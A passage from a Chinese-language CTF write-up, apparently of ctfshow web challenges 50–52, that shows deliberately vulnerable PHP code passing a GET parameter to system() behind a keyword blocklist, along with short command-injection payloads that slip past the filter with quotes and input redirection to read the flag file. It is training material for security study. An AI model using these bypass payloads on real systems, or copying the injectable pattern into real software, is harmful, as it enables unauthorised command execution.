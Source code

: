 根据源代码过滤了制表符，那就用<代替空格

但尝试了payload(url/?c=tac<fl?g.php%0a)发现不行，换掉?就可以了，暂时不知道是什么原因

---
**payload**

```php
url/?c=tac<fl''ag.php%0a
```
---






## web51 过滤了tac
**题目描述**

```php
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

根据源代码，多过滤了tac，就只有使用nl大法啦

---
**payload**

```php
url/?c=nl<fla''g.php%0a
```
---




## web52 过滤了>和<
**题目描述**

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**
